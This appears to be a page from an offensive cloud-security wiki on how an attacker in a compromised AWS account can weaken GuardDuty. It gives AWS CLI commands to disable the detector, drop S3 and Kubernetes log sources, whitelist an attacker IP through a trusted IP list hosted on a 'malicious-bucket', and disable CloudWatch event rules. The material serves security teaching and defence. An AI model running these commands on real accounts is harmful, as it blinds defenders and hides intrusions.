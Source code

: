 ```yaml
---
author: Ben Leembruggen
title: Modify Security Services
description: Update key AWS logging and detection services to hamper response activities.
enableEditBtn: true
editBaseURL: https://github.com/Hacking-the-Cloud/hackingthe.cloud/blob/main/content
---
```


Where an account has been successfully compromised, an attacker can modify threat detection services like GuardDuty to reduce the likelihood of their actions triggering an alert.  Whilst outright deleting services can trigger alerts, modifying key attributes of these services is less likely to raise alerts and can render them close to useless depending on the scenario.  The actions available to an attacker will largely depend on the compromised permissions available to the attacker, the AWS service architecture and the presence of higher level controls like Service Control Policies. 

## GuardDuty
Where GuardDuty uses a delegated admin or invite model, features like detector configurations and IP Trust lists are centrally managed, and so only able to be modified in the GuardDuty administrator account.  Where this is not the case, these features can be modified in the account that GuardDuty is running in.

---
### Misconfiguring the Detector
An attacker could modify an existing GuardDuty detector in the account, to remove logs sources or lessen its effectiveness.

Configuration changes may include a combination of:
- Disabling the detector altogether.
- Removing Kubernetes and s3 as data sources, which removes all [S3 Protection](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html) and [Kubernetes alerts](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-kubernetes.html).
- Increasing the event update frequency to 6 hours, as opposed to as low as 15 minutes.


#### Required Permissions to execute:
- guardduty:ListDetectors
- guardduty:UpdateDetector

Example CLI commands
```
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 as a log source
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false}

# Increase finding update time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```
---
### Modifying Trusted IP Lists
An attacker could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html), including their own IP on the list.  Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them. 

<i> DNS findings are exempt from the Trusted IP list </i>

#### Required Permissions to execute:
- guardduty:ListDetectors
- guardduty:ListIPSet
- iam:PutRolePolicy
- guardduty:CreateIPSet (To create new list)
- guardduty:UpdateIPSet (To update an existing list)

<i> Depending on the level of stealth required, the file can be uploaded to an s3 bucket in the target account, or an account controlled by the attacker. </i>


Example CLI commands
```
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

---
### Modify Cloudwatch events rule.
GuardDuty populates its findings to Cloudwatch Events on a 5 minute cadence.  Modifying the Event pattern or Targets for an event  may reduce GuardDuty's ability to alert and auto-remediate findings, especially where the remediation is triggered in a member account; as GuardDuty administrator protections do not extend to the Cloudwatch events in the member account. 

!!! Note  
In a delegated or invitational admin GuardDuty architecture, cloudwatch events will still be created in the admin account.

#### Required Permissions to execute:
- event:ListRules
- event:ListTargetsByRule
- event:PutRule
- event:RemoveTargets

Example CLI commands
```
# Disable GuardDuty Cloudwatch Event
aws events put-rule --name guardduty-event \
--event-pattern "{\"source\":[\"aws.guardduty\"]}" \
--state DISABLED

# Modify Event Pattern
aws events put-rule --name guardduty-event \
--event-pattern '{"source": ["aws.somethingthatdoesntexist"]}'

# Remove Event Targets
aws events remove-targets --name guardduty-event \
--ids "GuardDutyTarget"
```